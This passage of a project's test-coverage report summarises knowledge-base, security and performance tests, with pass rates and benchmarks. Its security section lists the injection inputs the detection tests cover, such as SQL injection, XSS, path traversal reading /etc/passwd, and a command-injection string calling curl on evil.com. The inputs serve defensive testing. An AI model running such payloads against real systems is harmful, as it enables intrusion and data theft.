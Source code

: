 **Capabilities Tested**:
- Vector similarity search
- Multi-source data aggregation (conversations, files, manual entries)
- Embedding generation and storage
- Context building for AI responses
- Knowledge importance ranking

### 3. Security Tests (`tests/security/`)

**Files Created**: 1
**Test Cases**: 13
**Pass Rate**: 77% (10/13 passing)

#### SQL Injection & Security (`sql-injection.test.ts`)
- ✅ SQL injection pattern detection
- ⚠️ XSS pattern detection (needs regex refinement)
- ✅ Path traversal detection
- ✅ Input sanitization
- ✅ Parameterized query concepts
- ⚠️ Input type validation (regex needs adjustment)
- ⚠️ HTML entity escaping (attribute escaping needed)
- ✅ Input length limits
- ✅ Character whitelisting
- ✅ File upload path validation
- ✅ CSP header implementation
- ✅ API input structure validation
- ✅ Command injection prevention

**Security Patterns Tested**:
- SQL Injection: `'; DROP TABLE users; --`, `1' OR '1'='1`, `UNION SELECT`
- XSS: `<script>alert(1)</script>`, `<img onerror=alert(1)>`, `javascript:alert(1)`
- Path Traversal: `../../../etc/passwd`, `..\\windows\\system32`
- Command Injection: `; ls -la`, `| cat /etc/passwd`, `$(curl evil.com)`

### 4. Performance Tests (`tests/performance/`)

**Files Created**: 1
**Test Cases**: 6
**Status**: Infrastructure ready

#### Concurrent Users (`concurrent-users.test.ts`)
- ✅ 10 concurrent requests test
- ✅ 50 concurrent requests load test
- ✅ Performance degradation monitoring
- ✅ Rapid sequential requests
- ✅ Response time distribution (P50, P95, P99)
- ✅ Memory efficiency testing

**Performance Benchmarks**:
- Target: < 5 seconds median response time (P50)
- Target: < 15 seconds 95th percentile (P95)
- Memory: < 100MB increase for 50 requests
- Concurrent: Handle 50+ simultaneous users
